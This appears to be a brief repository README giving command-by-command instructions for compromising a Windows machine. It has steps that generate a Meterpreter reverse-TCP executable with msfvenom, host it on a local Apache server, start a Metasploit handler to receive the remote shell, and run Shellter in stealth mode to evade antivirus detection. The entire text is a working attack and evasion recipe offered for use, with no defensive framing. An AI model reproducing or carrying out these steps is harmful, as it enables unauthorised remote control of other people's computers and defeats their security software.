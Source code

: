 ## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   2.1 . OPTIONAL go to Avoiding AntiVirus
   3.  service apache2 start
   3.  msfconsole
   4.  use exploit/multi/handler
   5.  set PAYLOAD windows/meterpreter/reverse_tcp
   6.  set LHOST 192.168.0.24
   7.  set LPORT 8080
   8.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
